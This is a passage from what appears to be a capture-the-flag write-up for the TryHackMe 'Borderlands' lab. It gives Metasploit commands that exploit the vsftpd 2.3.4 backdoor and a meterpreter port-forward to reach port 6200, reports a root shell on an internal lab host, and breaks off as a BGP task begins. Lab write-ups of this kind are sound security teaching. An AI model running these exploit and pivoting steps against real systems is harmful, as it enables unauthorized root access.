 #### Step 1: Port forward port 21

We have done it previously.

#### Step 2: Open Metasploit and exploit the port

Use the following command to exploit the port.

```
msf5> use exploit/unix/ftp/vsftpd_234_backdoor
msf5> set RHOSTS 127.0.0.1
msf5> exploit
```

You will get a no session after that.

![exploit ftp](/assets/images/THM/2020-08-13-borderlands/27.png)

#### Step 3: Port forward port 6200

Simply input the following command to port forward port 6200.

```
meterpreter> portfwd add -l 6200 -p 6200 -r 172.16.1.128
```

#### Step 4: Re-exploitation

Re-exploit the port again and you will get a root shell from 172.16.1.128.

![root](/assets/images/THM/2020-08-13-borderlands/28.png)

Now, capture the flag

### Task 1-5 and 1-6: UDP and TCP flag

I would like to credit this task to Tsuki who give me so many hints on solving this task. This task is almost similar to the [HTB carrier](https://0xrick.github.io/hack-the-box/carrier/) where you need to play around with the BGP configure file.

First off, we are going to launch the BGP config shell with the following command.
